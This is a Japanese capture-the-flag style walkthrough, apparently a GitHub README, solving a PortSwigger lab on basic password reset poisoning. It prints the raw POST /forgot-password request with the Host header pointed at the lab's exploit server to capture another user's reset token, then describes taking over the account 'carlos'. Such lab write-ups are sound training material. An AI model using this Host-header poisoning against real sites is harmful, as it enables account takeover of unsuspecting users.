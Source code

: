 # 基本的なパスワードリセットポイズニング

以下のハッキングラボを実施します  
https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning  
このラボはパスワード リセット ポイズニングに対して脆弱です。

- 1. BurpSuite を起動して Proxy タブからブラウザを立ち上げます
- 2. ブラウザからハッキングラボにアクセスします
- 3. Forgot password?　押下
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/b77b646d-b411-40a9-ba69-5fc1e7b5ef6a)

- 4.  ユーザー名 wiener を入力して、submit 押下
      ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/73682513-c1a3-45c1-a43e-852a6397fbef)
- 5. エクスプロイトサーバに移動し、Email を確認します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/f6d708eb-85d5-429e-a4e6-9622eb3f0007)

- 6. メールの URL を確認するとクエリパラメータが存在します

```
https://0a3500b104a2f8dd8234a1f2005600ff.web-security-academy.net/forgot-password?temp-forgot-password-token=iyEqGJBlyfEJVW5aWOkZXrT4iYa6s96g
```

- 7. リンクにアクセスして任意にパスワードをリセットします
- 8. POST /forgot-password HTTP/2 リクエストを send to repeater します
- 9. username を他人の名前に変更して、Host ヘッダーをエクスプロイトサーバの URL にします

```
POST /forgot-password HTTP/2
Host: exploit-0a0d001f0412f8da82caa025019300bc.exploit-server.net/email
Cookie: session=cuZNY62PvdYPnMGkThNBQzS9ypylJbYb; _lab=46%7cMCwCFEOzO1vQDCRL%2b7naWhIb1yOFQHa%2bAhQCUzmdlYWgE0f582sNk3aBzOGIzbyv0QzgMnbmWsHzLeVCjSOf%2fFFr0ccc4LSNI3dIt2Bg96q9y5RQjTawAW8j62Uho%2brQY75HMF9Uoi7qQT0bk5U%2fWMsVnDEt4F8knjWsL%2bOigGN5DQ8%3d
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0a3500b104a2f8dd8234a1f2005600ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3500b104a2f8dd8234a1f2005600ff.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

csrf=qIMWqyxKkPnUsHQ8ZRwl2taU2UrTWfDE&username=carlos
```

- 10. エクスプロイトサーバのアクセスログを見ると token が確認できます
      ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/80d98961-7ba9-4a3c-94e8-fc3fde0b8a14)

- 11. メールのリセット用 URL の token を上記のものに変更して、アクセスします

- 12. パスワードの変更を任意に行い、carlos で変更後のパスワードでログイン可能になります

